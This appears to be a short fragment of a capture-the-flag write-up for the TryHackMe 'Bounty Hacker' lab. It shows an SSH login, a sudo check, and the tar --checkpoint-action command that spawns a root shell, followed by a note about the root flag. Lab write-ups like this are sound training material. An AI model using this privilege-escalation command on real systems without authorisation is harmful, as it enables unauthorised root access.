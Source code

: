 ──(root💀kali)-[~/Desktop/THM]
└─# ssh lin@10.10.38.189   


able to login into system as lin


lin@bountyhacker:~/Desktop$ sudo -l

User lin may run the following commands on bountyhacker:
    (root) /bin/tar



lin@bountyhacker:~/Desktop$ find / -type f -perm -u=s 2>/dev/null


>Here we are able to run tar as sudo so i went to gtfo bins to see how to escalate privileges with this



got this command from there and i got the root

lin@bountyhacker:/tmp$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

whoami
root


>and i got the root flag in /root
